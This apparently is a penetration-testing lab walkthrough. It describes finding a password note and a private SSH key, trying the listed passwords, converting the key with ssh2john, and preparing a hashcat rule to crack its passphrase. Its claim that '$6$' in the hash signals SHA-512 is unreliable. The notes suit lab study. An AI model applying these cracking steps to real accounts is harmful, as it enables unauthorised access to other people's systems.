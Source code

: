 Scenario:
Assume initial access to web server and discover a `note.txt` and `id_rsa` file.

Contents of note:

```
Dave's password list:

Window
rickc137
dave
superdave
megadave
umbrella

Note to myself:
New password policy starting in January 2022. Passwords need 3 numbers, a capital letter and a special character
```

Change permissions of ssh key

`chmod 600 id_rsa`

SSH'ing with found private key and attempting to guess the passphrase using found wordlist.

`ssh -i id_rsa -p 2222 dave@192.168.50.201`

None of the passwords from the note.txt worked.

Transforming ssh key to a hash to be cracked.

`ssh2john id_rsa > ssh.hash`

Result:

````
id_rsa:$sshng$6$16$7059e78a8d3764ea1e883fcdf592feb7$1894$6f70656e7373682d6b65792d7631000000000a6165733235362d6374720000000662637279707400000018000000107059e78a8d3764ea1e883fcdf592feb7000000100000000100000197000000077373682...
````

`$6$` in the output indicates SHA-512
Remove filename before the colon.

Find hashcat mode to use

`hashcat -h | grep -i "ssh"`

````
  22921 | RSA/DSA/EC/OpenSSH Private Keys ($6$)               | Private Key
````

Mode: 22921

Creating rule with criteria found in the note:
- three numbers (using three numbers from a previous password: 1,3,7)
- capital letter  (capitalize first letter)
- special character (use ! @ #)
